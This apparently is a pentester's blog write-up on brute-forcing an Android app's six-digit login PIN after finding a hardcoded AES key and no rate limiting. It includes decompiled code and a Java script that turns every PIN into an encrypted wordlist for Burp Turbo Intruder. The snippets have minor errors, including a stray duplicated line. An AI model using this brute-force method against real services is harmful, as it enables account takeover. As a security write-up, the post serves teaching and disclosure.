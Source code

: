 ```yaml
---
title: "Android App Pentesting - Hardcoded Encryption Key + No Rate Limiting Lead to Account Takeover"
date: 2020-9-10T20:15:13+07:00
categories:
  - blog
tags:
  - pentest
  - writeup
  - burpsuite
  - hardcoded-key
---
```


So while pentesting an Android application (lets just call it App A), I stumble upon an unlimited login attempt trial -- which was only consist of a phone number and a **six digit** PIN number.. 

At first I thought that this was a really "juicy" target to bruteforce, but that thought immediately disappear once I see the request. 

Request
![request](/assets/images/writeup-1/req.png)

The request is a JSON object consist of fcmToken, phoneNumber, and a pin number which is somehow looks absolutely different from what I sent from the login screen.

My first guess was that the pin parameter is encoded in Base 64 (notice the "==" at the end), but as I decoding it into plain text, it turns out to be gibberish bytes-like text.
```
>>> import base64
>>> base64.b64decode("JTuPDh122ItijR3aw989lg==")
b'%;\x8f\x0e\x1dv\xd8\x8bb\x8d\x1d\xda\xc3\xdf=\x96'
```

My next step was to guess how the pin parameter is getting encrypted. Since the app wasn't obfuscated by either Proguard/Dexguard and I was able to decompile and gain a pretty clear view of the source code, I begin by inspecting the LoginActivity -- which of course responsible for handling the login activity.

`LoginActivity.java`
```java
final String str2 = "0" + this.phoneNumber.getText( ).toString();
final String obj = this.pin.getText().toString();
LoginRequest loginRequest = new LoginRequest(str2, AES.AES256Encrypt(obj), str);
```


It turns out that the pin number is passed into AES256Encrypt method, and -- you guess it from the title -- the key is hardcoded into the method itself.

`AES256Encrypt.java`
```java
public static String AES256Encrypt(String str) {
    String str2;
    try {
        str2 = Base64.encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")), 0);
    } catch (Exception e) {
        PrintStream printStream = System.err;
        printStream.println("Encrypted Err: " + e.getMessage());
        str2 = e.getMessage();
    }
    return str2.replaceAll("\\n", "");
}    return str2.replaceAll("\\n", "");
```
As you see, there are two  \<REDACTED> parameter in the code above, the first is **Initialization Vector**, and the other is **Encryption/Secret Key** itself.

Refering to the code above, I was able to make a script that encrypts the number in range of 100000-999999 to be then used as wordlist for bruteforcing. 

`pin.java`
```java
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
import java.io.PrintStream;
import javax.crypto.spec.IvParameterSpec;
import java.io.UnsupportedEncodingException;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import javax.crypto.BadPaddingException;
import javax.crypto.IllegalBlockSizeException;
import java.io.BufferedWriter;
import java.io.FileWriter;
    
public class Encrypt {
  public static byte[] encrypt(byte[] bArr, byte[] bArr2, byte[] bArr3) throws UnsupportedEncodingException, NoSuchAlgorithmException, NoSuchPaddingException, InvalidKeyException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
      IvParameterSpec ivParameterSpec = new IvParameterSpec(bArr);
      SecretKeySpec secretKeySpec = new SecretKeySpec(bArr2, "AES");
      Cipher instance = Cipher.getInstance("AES/CBC/PKCS5Padding");
      instance.init(1, secretKeySpec, ivParameterSpec);
      return instance.doFinal(bArr3);
  }

  public static String AES256Encrypt(String str) {
      String str2;
    try {
        str2 = Base64.getEncoder().encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")));
    } catch (Exception e) {
        PrintStream printStream = System.err;
        printStream.println("Encrypted Err: " + e.getMessage());
        str2 = e.getMessage();
    }
    return str2.replaceAll("\\n", "");
  }

  public static void main(String args[]) {
    for (int i = 100000; i <= 999999; i++){
        try {
            BufferedWriter writer = new BufferedWriter(new FileWriter("pin.txt", true));  
            writer.append(AES256Encrypt(String.valueOf(i)) + "\n");

            writer.close(); 
        } catch (Exception e){
            System.out.println(e);
        }
      } 
  }
}
```


Lastly, by using Burpsuite's Turbo Intruder and the wordlist generated from the script, I was able to "forcefully" gain access to my own account in relatively short amount of time :)

![intruder](/assets/images/writeup-1/intruder.png)

So remember whenever you find a parameter that doesn't look like what it is supposed to be, try to find and understand the logic behind it. If its encrypted or obfuscated, try to discover which part of the app is encrypting/obfuscating it, and in the case of encryption, there must be a key to encrypt it. 

For example, if the key is implemented over-the-air, you can obtain it by simply hooking the method using Frida, or if its hardcoded in the app, you can just refer to this post to decrypt it.

See ya :)
